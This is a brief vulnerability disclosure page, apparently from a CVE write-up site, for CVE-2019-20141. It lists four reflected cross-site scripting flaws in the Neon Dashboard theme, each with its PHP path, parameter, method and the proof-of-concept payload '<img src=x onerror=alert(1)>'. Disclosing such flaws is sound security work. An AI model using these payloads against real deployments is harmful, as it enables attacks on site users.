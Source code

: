 ```yaml
---
title: "CVE-2019-20141"
date: "2020-02-3"
layout: single
tags:
- CVE
categories:
- cve
---
```


# 4 Xss Refelected in Neon Dashboard Theme

* Path : ```/data/sample-register-form.php```
    * parameter : any parameter
    * Method : POST
    * payload : ```<img src=x onerror=alert(1)>```
* Path : ```/data/autosuggest-remote.php```
    * parameter : q
    * Method : GET
    * payload : ```<img src=x onerror=alert(1)>```
* Path : ```/data/sample-forgotpassword-form.php```
    * parameter : email
    * Method : POST
    * payload : ```<img src=x onerror=alert(1)>```
* Path : ```/data/sample-login-form.php```
    * parameter : username
    * Method : POST
    * payload : ```<img src=x onerror=alert(1)>```
    
 LINK : https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20141

